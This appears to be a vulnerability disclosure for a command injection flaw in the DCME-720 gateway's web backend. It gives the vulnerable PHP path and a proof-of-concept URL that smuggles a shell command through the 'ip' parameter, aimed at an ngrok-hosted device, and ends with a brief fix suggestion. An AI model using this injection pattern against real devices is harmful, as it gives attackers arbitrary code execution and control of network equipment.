




# Vulnerability overview

The DCME-720 multi-core egress gateway utilizes a high-performance multi-core processor and a dedicated ASIC switching chip. It is a next-generation, high-performance internet egress gateway designed to meet the needs of large user volumes, high traffic volumes, and diverse service types.

A command execution vulnerability exists in its web management backend, allowing attackers to execute arbitrary code and control the device.

Firmware download address: https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# Code audit

The code location is in the device system /usr/local/www/function/audit/newstatistics/ip_block.php

 

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[Splice command];

 

 

 

 

 

# verify

Log in to the web management backend and access the URL where the vulnerability is located:

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

Constructing the payload:

?action=save&switch=1&ip=;echo 123 > 1.txt;

Create a txt file and write a number to it

 

The poc is as follows:
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

Execute (displays that the modification failed but the command was executed successfully)

Access the 1.txt file and find that it was created and written successfully

 

 

# Repair suggestions

Modify the web backend PHP code to control or filter relevant parameters

 